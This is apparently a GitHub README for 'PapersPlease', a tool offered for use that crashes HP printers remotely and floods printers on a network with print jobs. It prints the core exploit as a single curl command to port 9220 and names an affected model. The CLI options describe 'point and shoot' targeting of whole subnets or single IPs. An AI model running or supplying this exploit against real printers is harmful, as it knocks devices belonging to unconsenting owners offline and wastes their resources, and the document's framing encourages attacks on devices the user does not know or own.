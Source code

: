 
# PapersPlease

<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to remotely crash an HP printer.
So far residential class printers have been observed to be exploitable by this vulnerability.
The tool also comes with the ability to mass print documents from either a single printer 
or all printers on a network by abusing HPs JetDirect protocol found on port 9100.

Notice that the program will stop you from connecting to known government external 
IP addresses. While not blocking all of them, it is there to stop skiddies from accidentally 
(or purposefully) scanning government addresses… as that would be bad.  

Also note that while exploiting a network range, you will only be able to specify a private IP address. 
As I’m not going to be responsible for some kid taking every port-forwarded printer down 
on the Internet, as funny as that would be. 

NOTE: To recover from the vulnerability after being exploited, you will have to power-cycle your printer.
As the exploit is crashing an internal process which causes the printer to go into a 
"failed" state.

Additionally:<br>
This script is fully compatible with `Termux` for Android.

## How It Works

While the inner workings are more complicated, the exploit in its purest form is as follows:<br>
`curl [IP]:9220 -X 'open 99999999'`<br>
As mentioned above, the printer will go into a failed state and remain in said state until restarted.

## Known Affected Models
| Model | DoS | Mass Print |
| :---  | :---: |     ---: |
|  HP Envy 7640  |  TRUE  |  False  |

**NOTE**
While the above models are confirmed to be vulnerable, you will usually not know what you are exploiting in the real world.
As this program is made to be a 'point and shoot' you don't have to take scan for the printers and know what they are beforehand.
However you can still specify specific printers with the `--target` flag.

## CLI Options

`-t`, `--target={IP}`       Specify a specific target rather than all addresses on the network.

`-n`, `--network={IP/CIDR}` Manually specify the network address for the current network you are on.

`--papyrus={N}`             Number of jobs to send to the printer this should cause the printer to print 
                            N number of pages.

`-i`, `--interval={N}`      The interval before another job is sent to the printer. Where N can be a decimal
                            i.e. 0.1 or a whole number. The default interval is 1.             

`-j`, `--jobs={-N|+N|N%|N}` Number of jobs to run. Passes value to parallel. Defaults to 0.

`-p`, `--proc={-N|+N|N%|N}` Define the maximum N of processes that can be active at a time. Defaults to 1.

`-s`, `--slots={-N|+N|N%|N}`The amount of 'slots' available to be used by parallel for jobs. Default is 252.

`-P`, `--port={PORT}`       Specify a specific port. Useful for port-forwarded hosts. Port number is set 
                            automatically based on the attack being preformed. PORT can be any number ranging
                            from 1 to 65535.
                            
`--no-check`                Will skip dependency checking.

`-q`, `--quiet`             Suppress output to terminal. Only the progress bar from parallel will be
                            printed to the terminal in this mode.

`-v`, `--version`           Print version information then exit.

`-h`, `--help`              Print this dialog page.
